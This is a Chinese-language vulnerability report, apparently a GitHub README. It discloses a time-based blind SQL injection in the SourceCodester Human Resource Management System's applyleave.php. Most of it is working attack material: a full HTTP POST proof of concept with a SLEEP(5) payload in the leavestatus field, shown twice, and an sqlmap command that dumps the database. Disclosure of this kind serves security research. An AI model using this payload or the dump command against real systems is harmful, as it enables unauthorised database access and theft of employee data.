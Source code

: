 

# PHP和MySQL中的人力资源管理系统项目 免费源代码



#### 提交者： Kha Do



## 供应商：SourceCodester



# 受影响和/或已修复的版本



## 易受攻击的文件



applyleave.php

# 问题类型



## 漏洞类型



SQL 注入

## 冲击



攻击者可以利用此漏洞获取数据库权限，从而导致数据库中出现大量数据。如果对方的数据库具有 DBA 权限，则可能会导致获取服务器主机权限。

# POC系列



## 有效载荷



```yaml
POST /hrm/user/applyleave.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Origin: http://localhost
Connection: close
Referer: http://localhost/hrm/user/applyleave.php
Cookie: PHPSESSID=2v2v2al4dkd4iir9cl5j7oikvr
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: cyan

leavestatus=5'+AND+(SELECT+1337+FROM+(SELECT(SLEEP(5)))VSgR)+AND+'Kha'%3d'123&reason=+++&startdate=03%2F04%2F2024&enddate=29%2F04%2F2024&Apply=Submit

```



运行此 Payload 后，数据返回时间延迟了 5 秒，表明我们可能已经成功执行**了 “sleep（5）”**。在这种情况下，延迟可能会好几次。我们将在下面进行验证：





影响描述

  人力资源管理系统1.0易受通过“leave”参数进行SQL注入的攻击。Sourcecodester Human Resource Management System 1.0 is vulnerable to SQL Injection via the 'leave' parameter.

poc&exp

```yaml

POST /hrm/user/applyleave.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Origin: http://localhost
Connection: close
Referer: http://localhost/hrm/user/applyleave.php
Cookie: PHPSESSID=2v2v2al4dkd4iir9cl5j7oikvr
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: cyan

leavestatus=5'+AND+(SELECT+1337+FROM+(SELECT(SLEEP(5)))VSgR)+AND+'Kha'%3d'123&reason=+++&startdate=03%2F04%2F2024&enddate=29%2F04%2F2024&Apply=Submit
```

## SQL映射



```
sqlmap -r <item request> --dump
```
